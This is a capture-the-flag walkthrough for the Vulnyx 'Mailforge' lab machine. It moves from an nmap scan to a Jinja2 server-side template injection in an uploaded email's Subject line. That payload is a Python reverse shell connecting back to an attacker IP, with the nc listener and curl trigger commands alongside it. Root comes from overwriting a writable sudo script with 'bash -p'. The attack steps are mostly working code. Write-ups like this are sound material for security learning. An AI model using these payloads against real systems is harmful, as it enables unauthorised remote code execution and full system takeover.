



## Machine Information

- **Name:** Mailforge
- **Platform:** Vulnyx
- **Difficulty:** Easy
- **IP Address:** 10.13.1.221
- **Operating System:** Linux (Alpine-based)

## Reconnaissance

### nmap scan

```jsx
nmap -sC -sV -p- 10.13.01.221

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 10.2 (protocol 2.0)
80/tcp   open  http    nginx
|_http-title: Did not follow redirect to http://mailforge.nyx/
5000/tcp open  http    Werkzeug httpd 3.1.4 (Python 3.12.12)
|_http-title: MailForge - Email Preview Service
|_http-server-header: Werkzeug/3.1.4 Python/3.12.12
```

### **Key Findings:**

- SSH service on port 22
- Nginx web server on port 80 (redirects to mailforge.nyx)
- **Werkzeug/Flask application on port 5000** - Email Preview Service



## Initial Access - Server-Side Template Injection (SSTI)

### Vulnerability Discovery

The application at `http://10.13.1.221:5000` is an Email Preview Service that allows users to upload `.eml` files and preview them.

- Upload endpoint `/upload`
- Preview endpoint: `/preview/<filename>`

### Exploitation - Getting Reverse Shell

**Payload Creation:**

```bash
cat > emlnc.eml << 'EOF'
From: test@test.com
To: test@test.com
Subject: {{config.__class__.__init__.__globals__['os'].popen('python3 -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\'10.13.1.88\',6979));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\'/bin/bash\',\'-i\'])"').read()}}

Test body
EOF
```

**Setup Listener:**

```bash
nc -lvnp 6979
```

**Trigger Exploit:**

```bash
curl -X POST http://10.13.1.221:5000/upload -F "file=@emlnc.eml"
curl http://10.13.1.221:5000/preview/emlnc.eml
```

**Shell recieved!**



## User Flag

bash

`cat /home/mailforge/user.txt`

**User Flag:** 

---

## Privilege Escalation

### Enumeration

**Check sudo privileges:**

```bash
sudo -l

User mailforge may run the following commands on mailforge:
    (root) NOPASSWD: /usr/local/bin/cleaner.sh
```

**Analysis:**

- Can run `/usr/local/bin/cleaner.sh` as root without password
- Need to check if we can modify this script

### Exploitation

**Original Script Content:**

```bash
#!/bin/sh
rm -rf /opt/mailforge/tmp/*`
```

**Modify Script for Root Shell:**

```bash
echo '#!/bin/bash' > /usr/local/bin/cleaner.sh
echo 'bash -p' >> /usr/local/bin/cleaner.sh
```

**Verify Modification:**

```bash
cat /usr/local/bin/cleaner.sh
```

**Output:**

```bash
#!/bin/bash
bash -p
```

**Execute as Root:**

```bash
sudo /usr/local/bin/cleaner.sh
```

**Check Privilege:**

```bash
whoami
# Output: root
```

 **Root Access Achieved!**



## Root Flag
```bash
cd /root
cat root.txt
```